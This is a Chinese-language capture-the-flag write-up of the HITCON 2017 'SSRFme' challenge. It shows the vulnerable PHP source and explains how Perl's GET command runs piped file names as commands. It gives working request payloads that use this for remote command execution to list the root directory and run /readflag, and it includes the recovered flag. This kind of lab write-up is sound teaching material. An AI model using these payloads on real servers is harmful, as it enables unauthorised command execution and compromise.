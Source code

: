 # [HITCON 2017]SSRFme
![](<./img/Pasted image 20230110085126.png>)

---

```php
<?php
    if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
        $http_x_headers = explode(',', $_SERVER['HTTP_X_FORWARDED_FOR']);
        $_SERVER['REMOTE_ADDR'] = $http_x_headers[0];
    }

    echo $_SERVER["REMOTE_ADDR"];

    $sandbox = "sandbox/" . md5("orange" . $_SERVER["REMOTE_ADDR"]);
    @mkdir($sandbox);
    @chdir($sandbox);

    $data = shell_exec("GET " . escapeshellarg($_GET["url"]));
    $info = pathinfo($_GET["filename"]);
    $dir  = str_replace(".", "", basename($info["dirname"]));
    @mkdir($dir);
    @chdir($dir);
    @file_put_contents(basename($info["basename"]), $data);
    highlight_file(__FILE__);
?>
```

参考 [大佬的wp](https://f002.backblazeb2.com/file/sec-news-backup/files/writeup/ricterz.me/_posts_HITCON_202017_20SSRFme/index.html)

![](<./img/Pasted image 20230110122535.png>)

`GET`是`perl`的一个命令，对于`file`协议的处理调用了`open`函数来实现，而`open`函数支持管道形式的文件句柄，因此可以将命令的结果作为文件处理。

由于`GET`处理`file`协议时在调用`open`前进行了一次文件存在的判断，因此需要访问两次，第一次利用`file_put_contents`创建文件，第二次进行命令执行

```
/?url=file:ls /|&filename=ls /|
```

```
/?url=file:ls /|&filename=ls /|
```

```
/sandbox/xxxx/ls /|
```

```
bin
boot
dev
etc
flag
home
lib
lib64
media
mnt
opt
proc
readflag
root
run
sbin
srv
start.sh
sys
tmp
usr
var
```

有个`readflag`，直接执行

```
/?url=file:bash -c /readflag|&filename=bash -c /readflag|
```

```
/sandbox/xxxx/bash -c /readflag|
```

```
flag is flag{1a5541cb-126c-4986-be35-c82a6c98bb6f}
```
